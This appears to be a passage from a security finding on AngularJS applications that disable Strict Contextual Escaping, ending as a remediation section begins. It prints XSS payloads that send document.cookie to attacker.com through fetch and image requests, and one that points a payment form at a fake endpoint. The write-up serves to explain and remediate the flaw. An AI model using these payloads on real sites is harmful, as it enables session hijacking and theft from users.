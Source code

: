 **With SCE Disabled:**

```javascript
// When SCE is disabled, this becomes dangerous:
$scope.userProvidedContent = "<script>alert('XSS')</script>";

```

```html
<!-- This would execute the script with SCE disabled -->
<div ng-bind-html="userProvidedContent"></div>

```

**Exploitation Mechanics:**

1. **Identifying Injection Points**: Attackers look for user inputs that are reflected in the UI, such as:
   - Form inputs
   - URL parameters
   - User profile data
   - Comment fields
   - Search queries

2. **Crafting Malicious Payloads**: With SCE disabled, attackers can inject various payloads:

```javascript
// Basic payload to verify vulnerability
"><script>alert('XSS')</script>

// Data exfiltration payload
"><script>fetch('https://attacker.com/steal?data='+document.cookie)</script>

// Session hijacking
"><script>document.write('<img src="https://attacker.com/collect?cookie='+document.cookie+'" />')</script>

// DOM manipulation
"><script>document.getElementById('payment-form').action='https://attacker.com/fake-payment'</script>

```

**Affected Areas:**
With SCE disabled globally, all parts of the application that display dynamic content are potentially vulnerable, including:
- User profile pages
- Comment sections
- Search result pages
- Dynamic content loaded from APIs
- Administrative interfaces
- Form validation messages

# Remediation Steps
## Re-enable Angular's Strict Contextual Escaping
